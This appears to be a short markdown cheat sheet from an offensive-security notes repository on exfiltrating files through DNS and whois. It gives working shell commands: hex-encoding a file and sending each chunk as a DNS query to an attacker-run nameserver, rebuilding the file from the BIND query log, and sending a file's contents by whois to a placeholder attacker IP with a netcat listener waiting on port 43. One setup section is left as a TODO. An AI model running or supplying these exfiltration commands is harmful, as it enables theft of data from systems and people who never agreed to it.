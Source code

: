 # DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

TODO: Provide a step process for exfiltrating DNS server on the attacker machine

#### 1.1.1 - Setup

##### 1.1.1.1 - BIND9

```
$ sudo apt install bind9
```

##### 1.1.1.2 - Dnsmasq

```
$ sudo apt install dnsmasq
```

#### 1.1.2 - Usage

```
$ xxd -p file.txt > file.hex

$ while read line; do drill $line.<nameserver_dns_server>; done < file.hex

$ egrep -o [0-9a-f]*.<nameserver_dns_server> /var/lib/bind/query.log | cut -d . -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Whois

```
$ whois -h <IP> -p 43 `cat /path/to/file.txt`

$ sudo nc -lnvp 43
```

## References

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

- [DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

- [Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)